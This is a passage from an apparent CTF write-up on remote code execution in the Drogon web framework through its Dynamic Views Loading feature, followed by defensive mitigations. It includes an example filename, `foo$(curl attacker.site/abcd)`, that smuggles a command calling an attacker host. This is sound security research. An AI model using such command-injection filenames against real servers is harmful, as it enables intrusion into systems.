 That’s right, `system()` is [called](https://github.com/drogonframework/drogon/blob/637046189653ea22e6c4b13d7f47023170fa01b1/lib/src/SharedLibManager.cc#L169). And since the CSP file name can be pretty much anything — subject to Linux’s file path conditions — we can inject arbitrary commands and achieve RCE!

{% image "assets/drogon-dynamic-view-loading-exec-on-filename.png", "jw-70 alpha-imgv", "Malicious code can be executed when `drogon_ctl` is run using the filename." %}

Additionally, our command can contain slashes, since Drogon recursively scans subdirectories. A file named `foo$(curl attacker.site/abcd)` will be treated as a folder (`foo$(curl attacker.site/`) + a file (`abcd)`).

## Takeaways and Mitigations

Although this was meant for a couple fun 48-hour CTF challenges, it feels appropriate to close with some tips on defence.

So what did we learn?

1. Drogon, at the moment, does not sandbox or properly sanitise CSP content.^[At the time of writing, I'm using Drogon version 1.9.1.] This is by design, since CSPs inherently contain trusted content.
2. There are three main ways to achieve RCE on a DVL-enabled Drogon server. And this comes with the prerequisite of file-write privileges.
   1. RCE via Rendered CSP
   2. RCE via Init Section
   3. RCE via File Name
3. Denylists need to consider a wide range of bypass methods. 

And mitigations?

1. Don't enable Dynamic Views Loading, unless you're in a local dev environment. Switch off DVL after using.
2. Don't allow untrusted input to be compiled and loaded as views; statically or dynamically.
3. Protecc your dynamic views directory. Don't allow untrusted files to be written there.
    - It doesn't matter if the view will be rendered in application code, because — [as we discovered earlier](#4-rce-via-file-name) — once `drogon_ctl` is run, an RCE endpoint is already exposed.
4. If, on the off chance, your environment accepts untrusted CSP files, you should consider using some filtering/denylist mechanism.
    - If filtering is performed, it should happen before files are written to the dynamic views directory. Once files are written, it's too late: Drogon kicks in and devours the CSP.
    {% image "assets/drogon-dynamic-view-loading-defence.png", "jw-70 alpha-imgv", "Defensive filtering, if any, should occur before CSP files are written." %}
    <p class="caption">
    <sup>Defensive filtering, if any, should occur before CSP files are written.</sup>
    </p>

Do I expect the RCE issues to be fixed? Considering the purpose of DVLs... probably not. Judging by the maintainer's stance, DVLs are purely meant for development:

> *Note: This feature is best used to adjust the HTML page during the development phase. In the production environment, it is recommended to compile the csp file directly into the target file. This is mainly for security and stability.* ([Source](https://github.com/drogonframework/drogon/wiki/ENG-06-View#Dynamic-compilation-and-loading-of-views:~:text=This%20feature%20is%20best%20used%20to%20adjust%20the%20HTML%20page%20during%20the%20development%20phase.))
